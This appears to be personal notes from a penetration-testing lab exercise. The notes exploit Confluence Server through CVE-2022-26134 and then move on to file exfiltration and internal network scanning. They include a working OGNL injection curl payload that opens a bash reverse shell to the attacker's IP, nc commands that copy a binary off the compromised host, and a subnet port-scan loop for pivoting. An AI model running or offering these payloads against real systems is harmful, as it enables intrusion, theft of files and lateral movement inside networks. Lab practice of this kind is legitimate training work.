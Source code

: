 Note: the source files used to build the **ssh_local_client** binary can be downloaded from **/exercises/client_source.zip**.


- Start by exploiting Confluence Server with CVE-2022-26134 exploit and upgrade TTY
```bash
# Tab 1 - nc listener
nc -nlvp 1270

# Tab 2 - exploit
curl -v http://192.168.233.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.154/1270%200%3E%261%27%29.start%28%29%22%29%7D/

# Tab 1 - CONFLUENCE01 revshell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

- Find location of **ssh_local_client** and download to Kali
	- Attempted `scp` first, but it didn't work
```bash
# On Kali
nc -nlvp 4444 > ssh_local_client

# On CONFLUENCE01
find / -name ssh_local_client 2>/dev/null
	/opt/atlassian/confluence/confluence/exercises/ssh_local_client

cd /opt/atlassian/confluence/confluence/exercises/

# -q 1 option tells nc to quit after the data is sent
nc -q 1 192.168.45.154 4444 < ssh_local_client
```
	- Do again for client_source.zip

- Enumerate
```bash
# Look for network connections
ip addr
	...
	4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
	    link/ether 00:50:56:bf:21:be brd ff:ff:ff:ff:ff:ff
	    inet 192.168.233.63/24 brd 192.168.233.255 scope global ens192
	       valid_lft forever preferred_lft forever
	5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
	    link/ether 00:50:56:bf:d5:0d brd ff:ff:ff:ff:ff:ff
	    inet 10.4.233.63/24 brd 10.4.233.255 scope global ens224     #<-- NOTE
	       valid_lft forever preferred_lft forever

# Enum for endpoints and open ports on 10.4.233.x subnet
	# Careful.... this takes FOREVER
for i in $(seq 1 254); do nc -zv -w 1 10.4.233.$i 1-1024 2>&1 | grep succeeded; done
	Connection to 10.4.233.215 22 port [tcp/ssh] succeeded!
	# Honestly, best to scan IPs for specific ports (like 22, 445, etc) seperately as the grep cmd leaves you asking if the full cmd is working at all
		# Ex: for i in $(seq 1 254); do nc -zv -w 1 10.4.233.$i 22 2>&1 | grep succeeded; done
```
